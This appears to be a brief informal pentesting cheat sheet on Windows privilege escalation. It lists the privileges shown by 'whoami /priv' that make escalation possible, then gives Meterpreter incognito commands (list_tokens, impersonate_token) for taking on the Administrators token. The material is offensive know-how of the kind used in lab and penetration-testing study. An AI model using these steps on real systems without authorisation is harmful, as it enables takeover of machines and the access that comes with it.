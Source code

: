  - in a windows shell, run the whoami /priv command to see all privileges

if any of these come upt you are gtg:
    SeImpersonatePrivilege
    SeAssignPrimaryPrivilege
    SeTcbPrivilege
    SeBackupPrivilege
    SeRestorePrivilege
    SeCreateTokenPrivilege
    SeLoadDriverPrivilege
    SeTakeOwnershipPrivilege
    SeDebugPrivilege

 - from here, in the meterpreter shell load the incognito module with "load incognito"
 - To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. 
 - Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators' token
   
   more information: https://www.exploit-db.com/papers/42556